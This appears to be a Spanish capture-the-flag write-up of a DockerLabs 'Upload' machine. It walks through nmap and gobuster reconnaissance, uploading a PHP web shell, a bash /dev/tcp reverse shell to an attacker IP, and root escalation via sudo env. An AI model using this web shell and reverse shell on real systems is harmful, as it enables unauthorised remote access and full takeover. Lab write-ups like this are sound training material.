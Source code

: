 # Máquina Upload

## Reconocimiento
Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver qué puertos tiene abiertos.
Este escaneo realiza un escaneo de todos los puertos disponibles en el host "172.17.0.2", mostrando solo los
puertos abiertos, utilizando el escaneo de tipo TCP SYN ("-sT"), estableciendo una velocidad mínima de envío de paquetes de 5000 por segundo ("--min-rate 5000"), activando el modo de verbosidad extremadamente alto ("- vvv"), desactivando la resolución DNS ("-n"), no realizando el ping previo al escaneo ("-Pn"), y guardando los resultados en formato Greppable en un archivo llamado "allPorts" ("-oG allPorts").

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________

PORT    STATE SERVICE REASON
80/tcp  open  http  syn-ack
```
Vemos que tan solo tiene el **puerto 80 abierto**, es decir, el servicio http, donde estará corriendo una página web que inspeccionaremos en unos instantes.
Lanzamos un conjunto de scripts con el parámetro "-sCV" ("-sC" y "-sV" combinados) para que nos reporte más información.
El comando utiliza el script de versión y detección de servicio, enfocándose únicamente en el puerto 80 ("-p80") del host "172.17.0.2", y guarda los resultados en un archivo de texto plano llamado "targeted" ("-oN targeted").

```shell
nmap -sCV -p80 172.17.0.2 -oN targeted
________________________________________________

PORT    STATE SERVICE VERSION
80/tcp  open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)
```

--------------------

Vemos el título, la versión de Apache, y poca información más. Accedemos a la web para ver ante qué nos enfrentamos.

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/c4132f21-6c6e-4cd9-ac27-ea530c72a24a)

Encontramos un campo de **subida de archivos**. Esto, sumando al nombre de la máquina, nos deja claro que tendremos que abusar de una subida de archivos para intentar ganar acceso a la máquina.
Probamos a subir un archivo txt de prueba:

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/73401c36-dd46-4904-91ea-9f9786574e75)

## Fuzzing

Nos indica que se ha subido correctamente. Ahora vamos a tratar de ubicarlo en algún directorio realizando **fuzzing** para descubrir posibles directorios. Para ello usaremos la herramienta **gobuster** y un diccionario de directorios comunes:

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
________________________________________________

/icons/               (Status: 403) [Size: 275]
/uploads/             (Status: 200) [Size: 741]
/server-status/       (Status: 403) [Size: 275]
```

Encontramos un **directorio uploads**.
Accedemos a él y encontramos el archivo que hemos subido:

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/af16d052-d909-494b-b31e-7d7dc274e296)

También comprobamos que lo podemos abrir y leer sin problemas:

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/732d4fff-fbf9-4155-92a2-86cd325f70a2)

Como ya tenemos una ruta donde ubicar los archivos que subimos, vamos a tratar de subir un archivo con código **php malicioso**. Si lo logramos y este es interpretado por la máquina, podremos llegar a ejecutar comandos en la máquina que corre el servicio web, lo que se conoce como **RCE** -> (Remote Code Execution)

## Explotación

Creamos un archivo llamado **cmd.php**
En este incluimos incluiremos el siguiente contenido:

```php
<?php
	system($_GET['cmd']);
?>
```

**GET** es un método de solicitud utilizado en HTTP para enviar datos a un servidor web. Cuando se usa en una URL, como en ?cmd=valor, indica que se está pasando un parámetro llamado cmd con un valor específico. En el
contexto de este código PHP, captura el valor del parámetro cmd pasado en la URL y lo utiliza como un comando para ejecutar en el sistema.

Observamos que la hemos subido correctamente:

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/697a6d79-ff64-4d1e-bc2f-d6d8350c774f)

Nos dirigimos como antes al directorio **/uploads** donde lo deberíamos encontrar:

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/4fbb15fa-c9a7-4540-9801-22ea4a3de3be)

Observamos que nos está interpretando el php, ya que no aparece el texto que hemos incluido en nuestro cmd.php
Confirmamos que es vulnerable y procedemos a ejecutar un comando.

```
http://172.17.0.2/uploads/cmd.php?cmd=id
```

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/efd2655f-22ad-44b4-92b3-d8157d349460)

En este caso, al acceder a la URL http://172.17.0.2/uploads/cmd.php?cmd=id, estamos utilizando el método GET para enviar un parámetro llamado cmd con el valor id.

El código PHP en el archivo cmd.php  ejecuta el comando del sistema que se pasa como valor de cmd. Por lo tanto, al pasar como valor de cmd, el servidor ejecuta el comando id, que muestra la identificación del
usuario y los grupos a los que pertenece en el sistema operativo.

El siguiente paso, una vez hemos comprobado que tenemos ejecución remota de comandos sobre la máquina, ejecutamos un comando que nos envíe una consola interactiva a nuestra máquina atacante. A esto se le conoce como **Reverse Shell**.
Para ello, nos ponemos en escucha previamente en nuestra máquina atacante, por ejemplo con **netcat**:

```shell
nc -nlvp 443
```

(Es posible que en tu máquina sea necesario **root** para escuchar por el puerto 443)

A continuación, ejecutamos la reverse shell a través de la url como anteriormente el comando id. Le pasaremos el siguiente valor al parámetro cmd:

```shell
http://172.17.0.2/uploads/cmd.php?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.39/443 0>%261" 
```
Los caracteres "**&**" los url-encodearemos para que no nos den problemas (corresponden al **%26**), y la IP en la reverse shell es la correspondiente a nuestra máquina atacante.

Tras ejecutarlo, comprobamos que **hemos ganado acceso a la máquina**.

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/cc007fd1-4766-4a3a-a950-2040f9c3fcb2)

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```
(hacemos  **ctrl  +  Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina.
Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

## Escalada de privilegios

Una de las primeras comprobaciones que se realiza al ganar acceso a una máquina es ejecutar el comando "**sudo -l**" para listar los permisos de sudo que tiene el usuario actual en el sistema. Muestra qué comandos específicos el usuario puede ejecutar con privilegios elevados utilizando sudo, así como cualquier restricción aplicada a esos comandos.

```shell
sudo -l
```

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/79be4197-1435-47f5-8812-09ed665d2002)

En este caso observamos que podemos ejecutar el binario "**/usr/bin/env**" como el usuario **root**, sin proporcionar contraseña.

Si no sabemos como explotarlo, podemos recurrir a **[GTFOBins]**(https://gtfobins.github.io/) , y si es crítico esta página nos indicará como podemos explotarlo. En este caso es sencillo ya que con env podemos lanzarnos directamente una consola, y al poder ejecutarlo como root, esta consola será lanzada con sus permisos, de forma que hemos logrado el nivel de privilegios máximo sobre la máquina !

```shell
sudo env /bin/sh
whoami
________________________________________________
root
```






